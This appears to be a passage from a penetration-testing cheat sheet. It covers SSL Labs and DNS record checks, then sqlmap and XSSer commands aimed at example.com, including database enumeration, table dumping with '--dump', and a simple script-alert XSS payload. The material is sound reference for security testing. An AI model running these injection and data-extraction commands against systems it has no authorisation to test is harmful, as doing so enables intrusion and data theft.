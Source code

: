 ### Infrastructure Scanners

#### SSL Labs API
```bash
# SSL configuration test
curl -s "https://api.ssllabs.com/api/v3/analyze?host=example.com"

# Certificate analysis
curl -s "https://api.ssllabs.com/api/v3/getCertChain?host=example.com"
```

#### DNS Security Tools
```bash
# SPF record check
dig TXT example.com | grep -i spf

# DKIM record check
dig TXT default._domainkey.example.com

# DMARC record check
dig TXT _dmarc.example.com
```

---

## ⚡ Exploitation Frameworks {#exploitation-frameworks}

### Web Exploitation

#### SQLMap
```bash
# Basic SQL injection test
sqlmap -u "https://example.com/page.php?id=1"

# POST request testing
sqlmap -u "https://example.com/login.php" --data "username=admin&password=admin"

# Cookie-based testing
sqlmap -u "https://example.com/page.php?id=1" --cookie "session=abc123"

# Database enumeration
sqlmap -u "https://example.com/page.php?id=1" --dbs

# Table enumeration
sqlmap -u "https://example.com/page.php?id=1" -D database_name --tables

# Data extraction
sqlmap -u "https://example.com/page.php?id=1" -D database_name -T table_name --dump
```

#### XSSer
```bash
# Basic XSS test
xsser --url="https://example.com/page.php?param=test"

# POST request testing
xsser --url="https://example.com/login.php" --data="username=admin&password=admin"

# Cookie-based testing
xsser --url="https://example.com/page.php?param=test" --cookie="session=abc123"

# Custom payloads
xsser --url="https://example.com/page.php?param=test" --payload="<script>alert('XSS')</script>"
```